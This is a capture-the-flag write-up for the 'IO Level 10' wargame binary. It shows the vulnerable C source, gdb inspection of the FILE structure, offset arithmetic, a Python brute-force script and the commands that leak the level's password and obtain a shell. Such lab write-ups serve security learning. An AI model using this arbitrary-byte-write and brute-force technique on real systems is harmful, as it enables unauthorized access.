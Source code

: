 # IO Level 10

## Problem
This problem has a fairly small code.
````
//written by andersonc0d3
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv){
        FILE *fp = fopen("/levels/level10_alt.pass", "r");
        struct {char pass[20], msg_err[20]} pwfile = {{0}};
        char ptr[0];

        if(!fp || argc != 2)
                return -1;

        fread(pwfile.pass, 1, 20, fp);
    pwfile.pass[19] = 0;
        ptr[atoi(argv[1])] = 0;
        fread(pwfile.msg_err, 1, 19, fp);
        fclose(fp);

        if(!strcmp(pwfile.pass, argv[1]))
                execl("/bin/sh", "sh", 0);
        else
                puts(pwfile.msg_err);


        return 0;
}
````

## Writeup

This program opens a "secret" file and reads the password. It also takes a command line argument and compares it with the password that is read. If they both match, a shell is 
given. However, there is no access to read the password file directly as it is set to elevated permission. 
The program also reads the next few bytes from the same file which is supposed to be the "error message". If the passwords dont match, the program then prints out the error message.
Also, there is a statement `ptr[atoi(argv[1])] = 0;` which sets the byte at (ptr + argv[1]) to zero. This is done after the first read from the password file. 

At this point, one can figure out that since there are reads happening on the same file, and this out-of-the-place statement is setting a byte to zero and dependant on the 
command line argument, there is a way to reset the read pointer of the file. If the pointer is reset, when there is a second read into the `msg_err` buffer, it reads the password
instead of the error message.

On opening this binary in gdb, and examining the structure of `FILE`:

````
(gdb) p *fp
$27 = {_flags = -72539000, _IO_read_ptr = 0x0, _IO_read_end = 0x0, _IO_read_base = 0x0, _IO_write_base = 0x0, _IO_write_ptr = 0x0, _IO_write_end = 0x0, _IO_buf_base = 0x0,
  _IO_buf_end = 0x0, _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0, _old_offset = 0, _cur_column = 0,
  _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0, _mode = 0,
  _unused2 = '\000' <repeats 39 times>}
(gdb)
````

There is a pointer called `_IO_read_ptr` which is initially 0.
This program cant be debugged directly in gdb because opening this in gdb would render the elevated password file inaccessible. One way is to compile this binary at a temporary
location and creating a password file on our own. On running the gdb on the temporary program and checking the `FILE` fter doing the read,

````
(gdb) p *fp
$28 = {_flags = -72539000, _IO_read_ptr = 0xb7fde014 "aaaaaaaaaabbbbbbbbbb\n", _IO_read_end = 0xb7fde029 "", _IO_read_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_write_ptr = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_end = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_buf_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_buf_end = 0xb7fdf000 "d\360\375\267\323\300\377\267", _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0,
  _old_offset = 0, _cur_column = 0, _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0,
  _mode = -1, _unused2 = '\000' <repeats 39 times>}
(gdb)
````

Note that the _IO_read_ptr is now pointing to the location after the password is read and this has to be reset to the beginning. On printing the address of this pointer in memory
and the address of `ptr` variable which allows us to set an "arbitrary" byte to 0
````
p &fp._IO_read_ptr
$29 = (char **) 0x804a00c
p &ptr
$30 = (char (*)[]) 0xbffffc74
````
So the difference would be 
````
p (int)&ptr - (int)&fp._IO_read_ptr
$31 = -1208263576
```` 

So if I pass 1208263576 as the argument, it sets the first byte of value pointed to by fp._IO_read_ptr to 0. Since there were only 20 bytes read, setting the first byte to zero 
would reset the pointer. However, it wont set the required byte to zero adn fread still reads the "error message" into the `msg_err` buffer.

Note that the address of pointer `ptr` depends on the length of command line argument since the command line argument is stored on the stack. On performing the same calculations with
the new argument obtained above (1208263576)

````
p (int)&ptr - (int)&fp._IO_read_ptr
$40 = -1208263592
````

Thus the new argument is 1208263592. This argument resets the read pointer and causes the password to be printed out as error message.

However, on running this on the original binary, the offsets vary. One method is to brute force the program with different values around the values obtained in gdb. The 
python script described below does that.

````
#!/usr/bin/env python
import subprocess
import sys

start = 1208260000
end = 1208270000
for i in range(start, end):
    try:
        output = subprocess.check_output(["/levels//level10", str(i)], stderr=None)
    except Exception:
        continue
    if output.find("ACCESS") == -1:
        print i
````

This find the value to be "1208263612". Hence on running,
` /levels/level10 1208263612`
the password that is supposed to be input is obtained.
"AverYloNgPassword!!"

**This is then passed to the binary using
`/levels/level10 `python -c 'print "AverYloNgPassword!!"'`
and the shell is obtained.**



